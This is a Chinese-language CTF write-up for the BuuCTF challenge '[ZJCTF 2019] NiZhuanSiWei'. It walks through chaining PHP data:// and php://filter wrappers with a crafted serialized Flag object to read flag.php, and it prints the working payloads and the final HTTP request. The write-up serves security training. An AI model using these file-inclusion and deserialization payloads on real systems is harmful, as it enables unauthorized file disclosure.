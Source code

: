 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - PHP
  - 伪协议
---
```


# \[ZJCTF 2019\] NiZhuanSiWei

## 前置工作

打开靶机网页，可见如下 PHP 代码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

## 伪协议构造 $text

我们阅读一下，如果 `$text` 存在且 `file_get_contents($text, 'r')` 等于 `welcome to the zjctf` 时，才有后面发生的事情，所以我们需要让 `$text` 为一个文件，而这个文件的内容就是 `welcome to the zjctf`，所以可以运用到 PHP 伪协议之一 `data://`，我们可以这么为造出一个文件来

```
?text = data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

显而易见，后面那一串 Base64 解码后就是 `welcome to the zjctf`，我们发送请求，屏幕上出现了一个大大的 **welcome to the zjctf**，这一步成功

## 伪协议构造 $file

从代码中我们可以看见程序已经把 `flag` 这个字符直接屏蔽掉了，但我们的目标暂时不是 `flag`，而是下面说的一个 `useless.php`，这就有点此地无银三百两的感觉了，他要 `include($file)`，还指示我要跟 `useless.php` 搭上关系，那么我们就应当让 `$file = useless.php`

但真的是这样吗？

下面的代码没有对 `include()` 进来的东西产生任何处理，说明就算 `include()` 进来我也不知道发生了什么，那么我希望我能使用 PHP 伪协议把这个文件直接读出来，所以可以这么写

```
?file = php://filter/read=convert.base64-encode/resource=useless.php
```

发送请求后，我们可以看到下面多了一串 Base64 编码

```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo
```

我们对他解码，得到 `useless.php`

```php
<?php
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

## 构造 Flag 对象

发现这根本不 useless，反而 useful，因为这是一个对象，这样子就跟下面的代码联系上了，在 `include()` 下面我们还有一个 `$password = unserialize($password);` 的语句，其中 `unserialize()` 即反序列化，与其对应的还有 `serialize()` 即序列化，分别是将**字符串转为对象**和将**对象转为字符串**

那么如果我们构造一个 Flag 对象，让他的（Flag 对象的，不是大题目里的）内部属性 `$file` = `flag.php`（至于这个 `flag.php` 怎么来的，可以看 `useless.php` 的第一行注释），那么就可以实现最终 `echo $password` 的时候打印的实际上是 `flag.php` 中的内容，所以我们可以写这么一段代码，放到 PHP Playground 里去跑一跑

```php
<?php
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}

$flag = new Flag(); // 创建一个 Flag 对象
$flag -> file = "flag.php"; // 将 Flag 对象的 file 属性设置为 flag.php
echo serialize($flag); // 将 Flag 对象序列化后打印输出
?> 
```

由此一来我们得到了一串被序列化后的 Flag 对象

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

那么很显然，我们的 `$password` 也理应等于这个被序列化后的 Flag 对象，最终我们的 Http 请求代码是（别忘了现在需要把 `$file` 改为 `useless.php`，因为你不需要再看他的源码了）

```http
GET /?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:%22Flag%22:1:%7Bs:4:%22file%22;s:8:%22flag.php%22;%7D HTTP/1.1
Host: 93865280-0782-49eb-80c2-893e57e7e0e1.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: 93865280-0782-49eb-80c2-893e57e7e0e1.node4.buuoj.cn:81
Connection: keep-alive
```

最终在源代码中可以找到 Flag，是 `flag{6063798f-c16b-490b-afcd-19edd1ccc5df}`